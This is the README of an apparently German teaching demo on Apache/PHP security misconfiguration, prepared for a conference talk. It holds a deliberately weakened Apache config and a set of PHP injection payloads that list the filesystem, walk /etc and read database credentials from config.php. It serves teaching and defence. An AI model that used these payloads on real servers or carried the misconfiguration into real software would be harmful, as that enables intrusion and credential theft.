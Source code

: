 # ITS2023 Security Misconfiguration Demonstration

Dieses Projekt dient als Demonstrationsbeispiel für unseren Vortrag über `Security Misconfiguration`.

>*WICHTIG:* Dieses Projekt sollte `NIEMALS` ausserhalb einer geschützten Umgebung ausgeführt werden!!!

# Dateiübersicht

```Text
.                                       Apache2 Webroot /var/www/html
├── README.md
├── docker-compose.yml                  Docker-Compose Datei
|
├── config.php                          Zugangsdaten für z.b. MYSQL DB
├── mysite                              Root der demo Webseite
│   ├── execute.php                     PHP Script welches anfällig für PHP Injection ist
│   └── index.html                      Einstiegspunkt der Webseite
|
└── test-httpd.conf                     Apache Konfiguration
```

## httpd.conf

```conf
<VirtualHost *:80>
    DocumentRoot /var/www/html

    <Directory /var/www/html>
        Options Indexes FollowSymLinks
        AllowOverride None
        #Require all granted
        # php_admin_value open_basedir /var/www/html
        # php_admin_value doc_root /
    </Directory>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
```

## docker-compose.yml

```yml
version: '3.1'

services:
  php:
    image: php:apache
    volumes:
      - ./:/var/www/html/
      - ./test-httpd.conf:/etc/apache2/sites-available/000-default.conf
    restart: unless-stopped
    ports:
      - 8080:80
```

# Getting started


>Im Projektverzeichnis  
`docker-compose up -d`  
ausführen.


> zum neustarten  
`docker-compose restart`

Webseite findet sich unter [http://localhost:8080/mysite](http://localhost:8080/mysite)

# PHP Injection Beispiele

## PHP Script Arbeitsverzeichnis ausgeben
```PHP
echo getcwd();
```
## Dateien im Sever Dateisystem Root ausgeben

### Simple
```PHP
$files = scandir('/'); $output = implode("\n", $files); echo $output;
```

### Tree
```PHP
function list_directory($directory, $level = 0, $prefix = '') {
    $files = scandir($directory);

    // Filter out the '.' and '..' entries
    $files = array_filter($files, function ($file) {
        return $file != '.' && $file != '..';
    });

    $count = count($files);

    foreach ($files as $i => $file) {
        $isLast = $i === $count - 1;

        // Prepare the prefix for child nodes
        $childPrefix = $prefix . ($isLast ? '    ' : '│   ');

        // Display the tree branch
        echo $prefix . ($isLast ? '└── ' : '├── ') . $file;

        $path = $directory . '/' . $file;

        // Display file details similar to 'ls -la'
        $info = new SplFileInfo($path);
        $type = $info->getType();
        $permissions = substr(sprintf('%o', $info->getPerms()), -4);
        $size = $info->getSize();
        $modified = date('Y-m-d H:i:s', $info->getMTime());

        echo " ({$type}, permissions: {$permissions}, size: {$size} bytes, last modified: {$modified})<br>";

        // If the file is a directory, list its contents
        if (is_dir($path)) {
            list_directory($path, $level + 1, $childPrefix);
        }
    }
}

list_directory('/etc');
```

## Datenbankverbindungsinformationen auslesen

### Mit bekannten Variablennamen
```PHP
include '/var/www/html/config.php'; echo DB_HOST . "\n"; echo DB_USER . "\n"; echo DB_PASSWORD . "\n"; echo DB_NAME . "\n";
```

### Via fopen
```PHP
$filename = '../config.php';
$file = fopen($filename, 'r');
if ($file) {
    while (($line = fgets($file)) !== false) {
        echo htmlspecialchars($line);
    }
    fclose($file);
} else {
    echo 'Error opening file.';
}
```

## Wie verhindern?
- Dokumentation lesen / System verstehen
- Entwicklungsumgebung und Produktivumgebung *trennen*
- Immer nur das *mindeste* an Berechtigungen geben
- `Best practice` verwenden
- ...
